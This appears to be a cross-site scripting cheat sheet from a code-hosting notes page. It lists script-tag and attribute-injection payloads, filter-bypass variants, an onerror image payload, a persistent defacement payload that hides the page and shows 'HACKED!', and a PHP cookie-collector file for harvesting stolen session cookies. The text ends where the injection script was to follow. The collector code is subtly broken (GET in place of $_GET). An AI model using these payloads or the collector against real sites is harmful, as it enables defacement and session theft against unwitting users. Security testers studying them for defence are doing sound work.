 This is a simple test to see what happens, this is not a prove that the field is vuln to XSS:

```javascript
<plaintext>
```

#### Simple XSS test

```javascript
<script>alert('Found')</script>
```

```javascript
"><script>alert(Found)</script>">
```

```javascript
<script>alert(String.fromCharCode(88,83,83))</script>
```

#### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`

```javascript
" onload="alert('XSS')
```

`bla` is not a valid image, so this cause an error:

```javascript
<img src='bla' onerror=alert("XSS")>
```

### Persistent

```javascript
>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";
```

### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

Edit a php page like `colector.php` as follow:

```php
<?php
  $cookie=GET['cookie'];
  $useragent=$_SERVER['HTTP_USER_AGENT'];
  $file=fopen('cookie.txt', 'a');
  fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
  fclose($file);
?>
```

Script to put in page:
